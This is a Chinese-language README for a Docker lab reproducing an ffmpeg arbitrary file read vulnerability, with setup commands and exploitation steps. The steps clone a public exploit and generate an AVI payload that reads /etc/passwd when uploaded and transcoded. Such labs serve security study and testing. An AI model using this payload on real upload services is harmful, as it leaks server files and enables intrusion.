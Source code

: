 # ffmpeg 任意文件读取漏洞环境

参考资料：

 - http://bobao.360.cn/learning/detail/4032.html
 - https://hackerone.com/reports/242831
 - https://github.com/neex/ffmpeg-avi-m3u-xbin

## 环境搭建

编译及启动环境

```
docker compose build
docker compose up -d
```

环境启动后监听8080端口，访问`http://your-ip:8080/`即可查看。

## 漏洞利用

漏洞原理不再赘述，直接下载exp，并生成payload：

```
# 下载exp
git clone https://github.com/neex/ffmpeg-avi-m3u-xbin
cd ffmpeg-avi-m3u-xbin

# 生成payload
./gen_xbin_avi.py file:///etc/passwd exp.avi
```

生成exp.avi，在`http://your-ip:8080/`上传。后端将会将你上传的视频用ffmpeg转码后显示，转码时因为ffmpeg的任意文件读取漏洞，可将文件信息读取到视频中：

![](01.png)

你也可以执行`docker compose exec web bash`进入本环境内部，测试ffmpeg。
